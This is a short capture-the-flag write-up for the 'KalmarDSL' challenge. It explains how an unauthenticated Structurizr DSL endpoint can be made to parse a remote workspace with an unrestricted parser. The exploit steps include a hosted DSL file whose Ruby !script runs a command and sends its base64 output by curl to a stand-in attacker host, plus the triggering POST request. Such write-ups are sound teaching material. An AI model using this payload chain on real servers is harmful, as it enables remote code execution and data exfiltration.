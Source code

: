 # KalmarDSL

Using the unauthenticated endpoint `/dsl` we can hit the _structurizr/java_ DSL parsing logic, but we can't use `!script` due to "restricted mode".

The dockerfile builds _structurizr/onpremises_ v3.1.0 (at commit c11ff7c3986529839ba4cf9c6fd9efa3b9045f1c), plus the file mentioned a bugfix for `!script`.

Looking at recent commits in _structurizr/java_ (which implements the `!script` logic and parses the custom DSL), we find "[Ensures restricted mode setting is propagated to spawned parsers](https://github.com/structurizr/java/commit/a734e984457478277358d7ce80f3f534cbb54a22)".

This commit fixes a vulnerability where a _restricted_ `StructurizrDslParser` -- while parsing `Workspace { ... }` -- can be tricked into creating a new _unrestricted_ `StructurizrDslParser` to parse any remotely hosted non-JSON workspaces.

This means using `workspace extends https://.../exploit.dsl` we can gain RCE using `!script` inside _exploit.dsl_.

## Exploit steps

Host this file at `https://attacker.tld/exploit.dsl`:

```
workspace {
	!script ruby {
		system("curl https://attacker.tld/callback?flag=`/would you be so kind to provide me with a flag | base64`")
	}
}
```

Then:

```
POST /dsl
dsl=workspace extends https://attacker.com/exploit.dsl
```
